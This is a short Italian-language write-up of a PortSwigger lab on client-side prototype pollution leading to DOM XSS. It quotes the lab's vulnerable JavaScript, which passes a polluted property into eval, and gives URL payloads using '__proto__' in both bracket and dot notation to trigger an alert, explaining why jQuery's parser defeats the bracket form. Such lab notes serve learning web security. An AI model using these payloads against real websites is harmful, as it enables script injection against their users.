 # Prototype Pollution e Parser

Quando si cerca di fare una **prototype pollution**, è necessario fare attenzione al parser che viene utilizzato per il nostro input.

## Esempio di Challenge

Nella challenge di PortSwigger [Prototype Pollution DOM XSS via an alternative prototype pollution vector](https://portswigger.net/web-security/prototype-pollution/client-side/lab-prototype-pollution-dom-xss-via-an-alternative-prototype-pollution-vector), vengono aggiunte all'oggetto `manager.params` le proprietà inserite nei parametri URL.

### Codice di esempio

```javascript
async function searchLogger() {
    window.macros = {};
    window.manager = {
        params: $.parseParams(new URL(location)),
        macro(property) {
            if (window.macros.hasOwnProperty(property))
                return macros[property];
        }
    };
    let a = manager.sequence || 1;
    manager.sequence = a + 1;

    eval('if(manager && manager.sequence){ manager.macro('+manager.sequence+') }');

    if (manager.params && manager.params.search) {
        await logQuery('/logger', manager.params);
    }
}
```

### Payload per Prototype Pollution

Per fare in modo che la funzione `eval` chiami un `alert()`, basterebbe inviare il seguente payload:

```
/?__proto__[sequence]=alert())}//
```

> **Nota:** È necessario evitare quell'`1` che viene aggiunto e quindi bisogna chiudere le parentesi.

### Problema con il Parser di jQuery

Il parser di jQuery interpreta `__proto__[sequence]` come `__proto__[NaN]`, impedendo la prototype pollution.

### Soluzione: Dot Notation

Per eseguire correttamente la prototype pollution, è necessario utilizzare la **dot notation**:

```
/?__proto__.sequence=alert())}//
```
